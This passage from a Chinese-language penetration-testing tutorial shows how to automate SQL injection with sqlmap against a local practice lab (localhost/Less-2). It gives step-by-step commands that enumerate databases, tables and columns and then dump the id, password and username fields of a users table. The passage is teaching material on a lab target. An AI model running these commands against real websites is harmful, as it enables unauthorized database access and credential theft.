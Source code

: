 手工注入是个体力活，效率很慢，如果能自动化地利用漏洞，就可以解放双手，省下不少时间。因此，通常我们不会使用手工注入的方式。

下面我就来介绍如何利用 sqlmap 实现 SQL 注入漏洞的自动化利用。

#### 使用 sqlmap 拖库

当前在 SQL 注入漏洞利用工具中，sqlmap 绝对是最常用的，前文也多次提到它，这里我们就尝试使用 sqlmap 实现拖库。

借助 sqlmap 我们可以通过简单的参数自动完成漏洞的利用，既不用记过多的 SQL 语句，也会更加高效。下面我会介绍一些常用的命令参数，通过这些参数，我们能实现注入自动化。具体的流程和手工注入一样，这里就不再赘述了。

**（1）使用 --dbs 参数获取数据库名称**（注意：这里需要 sudo，否则无法访问 docker 容器中的网站），示例命令如下：

```
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dbs
```

![Drawing 11.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zKAPDYwAAHpwAOclsQ168.png)

图 12：使用 --dbs 参数获取数据库名称

输出的对应 payload 也是学习各种注入技巧的参考资料，对于渗透测试者、漏洞扫描器、WAF 开发者需要研究的重要资源，有些扫描器干脆直接用 sqlmap，或者把它的所有 payload 扣出来使用。

**（2）使用 --current-db 参数获取当前数据库**，示例命令如下：

```
./sqlmap.py -u "http://localhost/Less-2/?id=1" --current-db
```

![Drawing 12.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zqAXr4gAABQGh6pVVo584.png)

图 13：使用 --current-db 参数获取当前数据库

**（3）使用 --tables 参数枚举表名**，示例命令如下 ：

```
./sqlmap.py -u "http://localhost/Less-2/?id=1" --tables -D 'security'
```

![Drawing 13.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y70GAQ0C0AACYCKSvjig335.png)

图 14：使用 --tables 参数枚举表名

**（4）使用 --columns 参数枚举字段名**，示例命令如下：

```
./sqlmap.py -u "http://localhost/Less-2/?id=1" --columns -T "users" -D "security"
```

![Drawing 14.png](https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y70mAVarDAAB9o-Ikd5A077.png)

图 15：使用 --columns 参数枚举字段名

**（5）使用 --dump 参数批量获取字段值**，示例命令如下：

```
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump -C "id,password,username" -T "users" -D "security"
```
